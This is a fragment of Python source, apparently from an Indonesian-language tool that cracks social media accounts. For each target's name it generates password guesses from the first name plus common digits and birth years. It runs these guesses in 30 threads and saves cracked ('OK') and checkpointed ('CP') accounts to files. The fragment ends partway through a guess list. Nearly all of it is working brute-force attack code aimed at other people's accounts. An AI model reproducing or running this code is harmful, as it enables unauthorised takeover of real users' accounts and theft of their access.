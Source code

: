 #		taplikasi.append('no')
	pwplus=input('>> PASS BO ZYA KAY YAN AUTO PASS ( Y/t ) ')
	if pwplus in ['y','Y']:
		pwpluss.append('ya')
		cetak(nel('[[cyan]â€¢[white]] PASSWORD BNUSA\n[[cyan]â€¢[white]] Contoh :[green] kakak,ngentod,adik[white] '))
		pwku=input('>> Masukkan Password  : ')
		pwkuh=pwku.split(',')
		for xpw in pwkuh:
			pwnya.append(xpw)
	else:
		pwpluss.append('no')
	passwrd()
#-------------------[ BAGIAN-WORDLIST ]------------#
def passwrd():
	print(f'>>>>> {m}â€¢{k}â€¢{h}â€¢{x} Sedang Menggeser Matahari {m}â€¢{k}â€¢{h}â€¢{x} <<<<< ')
	print('')
	print(f'>> Hasil {h}OK{x} Tersimpan Di : {h}OK/%s {x}'%(okc))
	print(f'>> Hasil {k}CP{x} Tersimpan Di : {k}CP/%s {x}'%(cpc))
	print(f'>> LA HAR 1K ID AIRPLANE BKARA ISH {m}1k{x} Idz\n')
	with tred(max_workers=30) as pool:
		for yuzong in id2:
			idf,nmf = yuzong.split('|')[0],yuzong.split('|')[1].lower()
			frs = nmf.split(' ')[0]
			pwv =[]
			if len(nmf)<6:
				if len(frs)<3:
					pass
				else:
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12345678')
					pwv.append(frs+'123456789')
					pwv.append(frs+'1122')
					pwv.append(frs+'2022')
					pwv.append(frs+'2001')
					pwv.append(frs+'2004')
					pwv.append(frs+'2002')
					pwv.append(frs+'2003')
					pwv.append(frs+'1999')
					pwv.append(frs+'1996')
					pwv.append(frs+'1998')
					pwv.append(frs+'1997')
					pwv.append(frs+'1995')
					pwv.append(frs+'2000')
					pwv.append(frs+'12')
					pwv.append(frs+'1212')
			else:
				if len(frs)<3:
					pwv.append(nmf)
				else:
					pwv.append(nmf)
					pwv.append(frs+'123')
					pwv.append(frs+'1234')
					pwv.append(frs+'12345')
					pwv.append(frs+'12345678')
					pwv.append(frs+'123456789')
					pwv.append(frs+'1122')
					pwv.append(frs+'2022')
					pwv.append(frs+'2001')
					pwv.append(frs+'2004')